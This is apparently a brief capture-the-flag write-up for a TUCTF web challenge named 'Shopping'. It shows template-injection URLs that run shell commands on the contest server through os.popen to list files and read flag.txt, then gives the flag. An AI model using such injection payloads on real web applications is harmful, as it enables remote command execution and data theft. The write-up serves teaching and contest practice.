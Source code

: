 
# Shopping

There is shell on the welcome section. We can execute some bash command using a python script.

- `http://chal.tuctf.com:30007/welcome/{% import os %}{{ os.popen("ls -lah").read() }}`

There is a flage.txt file, so :

- `http://chal.tuctf.com:30007/welcome/{% import os %}{{ os.popen("cat flag.txt").read() }}`

TUCTF{4lw4y5_60_5h0pp1n6_f0r_fl465}
